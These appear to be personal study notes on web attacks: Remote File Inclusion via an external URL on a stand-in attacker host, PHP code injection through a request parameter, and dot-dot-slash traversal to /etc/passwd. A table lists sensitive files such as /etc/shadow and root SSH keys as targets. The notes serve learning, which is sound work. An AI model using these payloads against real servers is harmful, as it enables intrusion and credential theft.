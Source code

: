 ### RFI
Remote File Inclusion is a technique to include remote files and into a vulnerable application by injecting an external URL into include function. One requirement it has is that the **allow_url_fopen** option need to be on. These vulnerabilities have a higher risk since it allows us to gain Remote Command Execution (RCE) on the server as well as disclosing sensitive info, [XSS](Exploitation#XSS) or [[DoS]]. 

For this you will need to have an already existing command hosted in another URL so you can input it into the include function similar to this **index.php?lang=http://attacker.thm/cmd.txt**

#### RCE
Is one of the most cool ways to gain control into a machine, by injecting code into the request by adding semicolons at the end of the input (PHP), we can then input another command that we want to be executed, basically allowing us to run whatever code we want at runtime (without sanitation of course). ej **index.php?user=admin;phpinfo();**

### Dot Dot slash
Is a vulnerability that allows an attacker to read operating system resources such as local files on the server. You can manipulate the URL to locate and access files or directories stores outside the application's root directory.

A directory traversal or dot dot slash attack can be done when an entry point is found, in some cases **get.php?file=** then you can take advantage of the **../** to move up a directory, going from wherever you were in the application file, one directory higher, possibly reaching root and traversing from there, so a full attack may look like **get.php?file=../../../../etc/passwd**. (literally the same for windows)

Some common OS files to test
#### file paths
|   |   |
|---|---|
|**Location**|**Description**|
|/etc/issue|contains a message or system identification to be printed before the login prompt.|
|/etc/profile|controls system-wide default variables, such as Export variables, File creation mask (umask), Terminal types, Mail messages to indicate when new mail has arrived|
|/proc/version|specifies the version of the Linux kernel|
|/etc/passwd|has all registered user that has access to a system|
|/etc/shadow|contains information about the system's users' passwords|
|/root/.bash_history|contains the history commands for root user|
|/var/log/dmessage|contains global system messages, including the messages that are logged during system startup|
|/var/mail/root|all emails for root user|
|/root/.ssh/id_rsa|Private SSH keys for a root or any known valid user on the server|
|/var/log/apache2/access.log|the accessed requests for Apache  webserver|
|C:\boot.ini|contains the boot options for computers with BIOS firmware|
